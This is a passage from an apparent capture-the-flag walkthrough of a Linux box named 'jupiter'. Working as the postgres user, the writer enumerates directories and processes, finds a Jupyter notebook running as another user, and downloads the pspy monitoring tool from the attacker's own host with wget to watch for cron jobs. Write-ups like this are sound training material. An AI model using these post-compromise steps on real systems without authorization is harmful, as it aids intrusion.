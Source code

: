 ```
postgres@jupiter:/$ ls -l /opt/
total 4
drwxrwx--- 4 jovian science 4096 May  4 18:59 solar-flares
postgres@jupiter:/$ ls opt/solar-flares/
ls: cannot open directory 'opt/solar-flares/': Permission denied

```

There’s also a `network-simulation.yml` and `shadow.data` folder in `/dev/shm`:

```
postgres@jupiter:/dev/shm$ ls
network-simulation.yml  PostgreSQL.2103401574  shadow.data

```

I’ll come back to this shortly.

#### Processes

The output of `ps auxww` has one interesting line:

```
jovian      1163  0.0  1.6  81332 66616 ?        S    19:24   0:00 /usr/bin/python3 /usr/local/bin/jupyter-notebook --no-browser /opt/solar-flares/flares.ipynb

```

A Jupyter notebook running as jovian, with notebooks in the folder that I can’t access yet. I’ll have to come back to this.

#### pspy

To further look at the processes, I’ll use [pspy](https://github.com/DominicBreuker/pspy) to look for any crons. I’ll serve it with a Python webserver on my host, and upload it with `wget`, then setting it as executable:

```
postgres@jupiter:/dev/shm$ wget 10.10.14.6/pspy64
--2023-08-31 20:35:55--  http://10.10.14.6/pspy64
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64              100%[===================>]   2.96M  2.10MB/s    in 1.4s

2023-08-31 20:35:57 (2.10 MB/s) - ‘pspy64’ saved [3104768/3104768]

postgres@jupiter:/dev/shm$ chmod +x pspy64

```

I’ll run it, and watch for interesting programs, especially when the minute changes:

```
postgres@jupiter:/dev/shm$ ./pspy64
...[snip]...

```
